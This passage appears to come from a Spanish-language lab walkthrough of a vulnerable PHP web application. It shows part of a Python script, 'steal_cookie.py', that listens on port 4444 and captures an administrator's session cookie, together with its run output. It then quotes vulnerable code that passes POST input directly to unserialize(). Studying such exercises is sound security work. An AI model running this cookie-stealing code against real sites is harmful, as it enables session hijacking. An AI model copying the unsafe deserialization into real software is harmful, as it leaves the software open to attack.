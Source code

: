 ```
print("[*] Servicio web en el puerto %d..."%lport)
s = socket.socket()
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((host,lport))
s.listen()

print("[*] Esperando que el administrador se active ...")
(sock_c, ip_c) = s.accept()
get_request = sock_c.recv(4096)
admin_cookie = get_request.split(b" HTTP")[0][5:].decode("UTF-8")

print("[+] Cookie de administrador:")
print("[+] " + admin_cookie)
```

Ejecución del script

```
❯ python3 steal_cookie.py 172.17.0.2 192.168.0.107 admin admin
[+] Logged in!
[+] Cambiando descripcion
[*] Servicio web en el puerto 4444...
[*] Esperando que el administrador se active ...
[+] Cookie de administrador:
[+]PHPSESSID=a7g92b0i44ubv6mvvbetguhf37
```

----

## Deserialización de PHP

> La **serialización** es el proceso de convertir un objeto en un formato de datos que se puede restaurar más tarde.
> Hoy en día, el formato de datos más popular para serializar datos es JSON, antes de eso era XML

### Código vulnerable

El fichero `./admin/import_user.php` incluye `../includes/utils.php` el cual contiene el método `\_\_destruct` que es un método mágico utilizado con la deserialización

> `__destruct`: se llama cuando el script PHP finaliza y el objeto se destruye

Se envia una petición `POST` un objeto serializado en `PHP` guardando en la variable `$userObj`

```
[...]
include('../includes/utils.php');

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $userObj = $_POST['userobj'];
    if ($userObj !== "") {
        $user = unserialize($userObj);
        include('../includes/db_connect.php');
[...]
```
